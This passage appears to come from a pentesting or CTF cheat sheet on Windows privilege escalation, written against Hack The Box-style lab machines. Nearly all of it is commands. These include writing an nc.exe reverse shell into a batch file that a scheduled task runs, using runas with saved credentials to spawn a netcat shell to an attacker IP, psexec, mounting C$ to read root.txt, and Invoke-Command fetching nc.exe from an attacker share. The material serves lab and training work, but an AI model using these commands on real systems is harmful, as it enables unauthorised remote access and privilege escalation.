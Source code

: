 Everyone has the full rights.

Now spawn your reverse shell to SVCcheck.bat by echo

```
echo "C:\Documents and Settings\albert\nc.exe" -nv 192.168.39.31 80 -e C:\WINDOWS\System32\cmd.exe > "C:\SVCcheck\SVCcheck.bat"
```

Then just simply wait for 5 mins you'll get the reverse shell.

#### runas  <a href="#runas-and-privilege-escalation" id="runas-and-privilege-escalation"></a>

You can check if administrator needs no password by&#x20;

```
net user administrator
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Then you can simply make ncat reverse shell by runas&#x20;

```
runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.xx.xx 1337"
```

```
nc -lnvp 1337
```

If you already got the administrator password, you can simply try psexec by running cmd as Administrator and get a shell.

```
runas /netonly /user:QUERIER\Administrator cmd.exe
psexec \\querier.htb cmd
```

#### Mounting C$ Manullay in case you can't access root.txt even with an adminstrator account.

```
net use Z: \\ARKHAM\C$
Z:
type root.txt
```

Powershell run as different user and get the reverse shell

```
Invoke-Command -ScriptBlock {\\10.10.14.38\share\nc.exe -e cmd.exe 10.10.14.38 4444} -Credential WORKGROUP\administrator -computer localhost
```

### Outdated Windows OS
